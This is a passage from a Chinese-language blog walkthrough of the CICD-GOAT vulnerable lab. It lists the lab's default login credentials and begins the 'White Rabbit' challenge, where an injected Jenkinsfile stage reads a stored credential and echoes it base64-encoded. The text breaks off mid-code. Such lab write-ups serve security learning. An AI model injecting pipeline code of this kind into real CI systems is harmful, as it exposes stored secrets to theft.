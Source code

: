 

# 从 CICD-GOAT 靶场学习 top-10-cicd-security-risks - 先知社区

从 CICD-GOAT 靶场学习 top-10-cicd-security-risks

- - -

# CICD-GOAT

CICD-GOAT 靶场是一个配置了 CICD 漏洞的靶场，从中可以学习到 TOP10 CICD 安全漏洞的地址。靶场地址是[https://github.com/cider-security-research/cicd-goat](https://github.com/cider-security-research/cicd-goat)  
按照官网的步骤安装可以。

```bash
Jenkins: http://localhost:8080
Username: alice
Password: alice
Gitea: http://localhost:3000
Username: thealice
Password: thealice
GitLab http://localhost:4000
Username: alice
Password: alice1234

如果你想仔细查看管理员是如何配置的环境，可以使用如下凭据登录后台：
CTFd
Username: admin
Password: ciderland5#
Jenkins
Username: admin
Password: ciderland5#
Gitea
Username: red_queen
Password: ciderland5#
Gitlab
Username:root
Password:ciderland5#
```

## White Rabbit

考察的是 PPE 漏洞。访问项目对应的 gitea 仓库，发现存在 Jenkinsfile 文件，git clone 下来注入恶意代码：

```bash
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
    }

    stages {
stage('getflag') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                        sh '''
                            echo "flag1:".$flag1|base64
                        '''
                }
            }
        }
        stage ('Install_Requirements') {
            steps {
                sh """
```